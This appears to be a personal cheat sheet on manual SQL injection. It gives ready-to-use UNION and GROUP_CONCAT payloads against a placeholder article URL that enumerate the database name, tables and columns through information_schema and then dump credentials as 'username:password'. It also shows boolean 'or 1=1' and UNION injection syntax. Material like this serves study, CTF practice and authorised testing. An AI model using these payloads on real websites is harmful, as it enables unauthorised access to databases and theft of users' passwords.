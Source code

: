 **NAVIGATE DATABASE:**

Manual navigation of a database, from finding the database name and then pulling info from the *information_schema* to determine names of columns and tables.

```powershell
#UNION/GROUP_CONCAT
$T1, $T2, group_concat(table_name)    :After knowing the reflected column in website, use "group_concat(expr);" to display all "table names"
$DB                                   :"Database name"
$TABLE                                :"Table name"
$COLUMN                               :"Column name"
group_concat(SEPARATOR '<br>')        :separate with newline for each entry
group_concat($column1,':',$column2)   :Format dump i.e 'username:password'
website.com/article?id=0 union select $T1, $T2, database();-- -                                                                              :Dump 'database name'
website.com/article?id=0 union select $T1, $T2, group_concat(table_name) from information_schema.tables where table_schema = '$DB';-- -      :Dump 'table names'  # article, users
website.com/article?id=0 union select $T1, $T2, group_concat(column_name) from information_schema.columns where table_name = '$TABLE';-- -   :Dump 'column names' # id, username, pass
website.com/article?id=0 union select $T1, $T2, group_concat($column1,':',$column2 SEPARATOR '<br>') from $TABLE;-- -                        :Dump in format i.e 'username:pass' 
#group_concat dump specific columns
```

Below is an example of **database syntax** and how these SQL statements are interpreted through the website:

```powershell
select $COLUMN;     :Select specific column within DB
from $TABLE;        :Pull from specific table
where $CONDITION;   :Specify condition or target specific info, i.e "id=1" (first entry) or "Name=Shoes" (specific target)

#DATABASE SYNTAX
select $COLUMN from $TABLE where $CONDITION;

#BOOLEAN
#True/False conditions
select $name, $description from $products where $ID='' or 1=1;    :empty '' string or 1=1, Return TRUE value and display info
select $name, $description from $products where $ID='' or 1=2;    :Return FALSE value and does not display info

#UNION
select $name, $description from $products where $ID='3' union select $username, $password from $accounts;   :Example of union of two statements

#CONSTANT VALUES
select <22>, <"string">, <0x12>, <"another string">;
```

---
